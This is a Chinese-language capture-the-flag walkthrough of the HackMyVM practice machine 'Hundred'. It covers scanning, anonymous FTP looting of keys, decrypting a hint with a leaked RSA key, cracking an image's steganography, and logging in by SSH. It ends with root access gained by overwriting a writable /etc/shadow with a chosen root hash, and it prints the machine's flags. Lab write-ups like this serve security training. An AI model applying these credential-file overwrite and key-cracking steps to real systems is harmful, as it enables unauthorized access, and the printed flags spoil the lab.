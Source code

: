 # Hundred

2024-12-28 https://hackmyvm.eu/machines/machine.php?vm=Hundred

## IP

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

在访问 80 查看源代码发现：

```
key: h4ckb1tu5.enc;

<!-- l4nr3n, nice dir.-->
```

看着 h4ckb1tu5.enc 像是一个域名或者是一个文件，先添加到 hosts 文件中，进行访问，根主页内容一样，但是访问 l4nr3n 这个目录还是 404。在访问下看看 h4ckb1tu5.enc 是不是文件，访问成功，是个文件：

```
file h4ckb1tu5.enc
h4ckb1tu5.enc: data
```

enc 文件是加密后的文件。同时用 gobuster 进行扫描，没发现其他有用目录。

ftp 允许匿名登陆，先看 ftp，里面有如下文件：

```
-rwxrwxrwx    1 0        0             435 Aug 02  2021 id_rsa
-rwxrwxrwx    1 1000     1000         1679 Aug 02  2021 id_rsa.pem
-rwxrwxrwx    1 1000     1000          451 Aug 02  2021 id_rsa.pub
-rwxrwxrwx    1 0        0             187 Aug 02  2021 users.txt
```

userx.txt 中发现类似用户的字典：

```
noname
roelvb
ch4rm
marcioapm
isen
sys7em
chicko
tasiyanci
luken
alienum
linked
tatayoyo
0xr0n1n
exploiter
kanek180
cromiphi
softyhack
b4el7d
val1d

Thanks
hmv
```

id_rsa.pem 中发现了私钥，使用此私钥对上面的用户字典尝试 ssh 密钥登陆，但是都不成功。最后的那个 hmv 像是用户名。

尝试用得到的私钥去解密 h4ckb1tu5.enc 文件，得到了另外一个目录提示：

```
openssl rsautl -decrypt -inkey id_rsa.pem -in h4ckb1tu5.enc > result.txt

cat result.txt
/softyhackb4el7dshelldredd
```

访问这个目录/softyhackb4el7dshelldredd，但是什么都没发现，可能这个 softyhackb4el7dshelldredd 是一个密码，尝试用上面得到的 users.txt 进行爆破，也没有成功。

使用 gobuster 大字典对这个目录/softyhackb4el7dshelldredd 再次进行爆破，发现 id_rsa:

```
http://192.168.5.39/softyhackb4el7dshelldredd/id_rsa
```

下载的 id_rsa 有密钥，使用 john 对其进行解密，rockyou 没有得到密码。

经过查询发现首页那张图片存在隐写，使用 stegseek 和 users.txt 对其进行解密：

```
stegseek --crack logo.jpg users.txt

cat logo.jpg.out
d4t4s3c#1
```

得到 id_rsa 的密码: `d4t4s3c#1`

进行登陆：ssh -i id_rsa hmv@192.168.5.39

得到了 user flag：

```
hmv@hundred:~$ cat user.txt
HMV100vmyay
```

进行系统枚举，发现 /etc/shadow 文件可写，对其 root 用户的密码进行覆盖：

```
mkpasswd -m sha-512 rootroot
$6$f1GydTUyHKGP4Lk.$bbtt164CKAAi/Iia/awDq1jjodzJg/UI..X8KQLictS6BwsOo52zxhupYLA5JL1XdqpXLnk4gJdCyNPur9YZw1

root:$6$f1GydTUyHKGP4Lk.$bbtt164CKAAi/Iia/awDq1jjodzJg/UI..X8KQLictS6BwsOo52zxhupYLA5JL1XdqpXLnk4gJdCyNPur9YZw1:19729:0:99999:7:::

echo 'root:$6$f1GydTUyHKGP4Lk.$bbtt164CKAAi/Iia/awDq1jjodzJg/UI..X8KQLictS6BwsOo52zxhupYLA5JL1XdqpXLnk4gJdCyNPur9YZw1:19729:0:99999:7:::' > /etc/shadow
```

写入后，用 rootroot 密码切换到 root 用户，得到了最终的 flag：

```
root@hundred:/home# cd /root
root@hundred:~# ls
root.txt
root@hundred:~# cat root.txt
HMVkeephacking
```

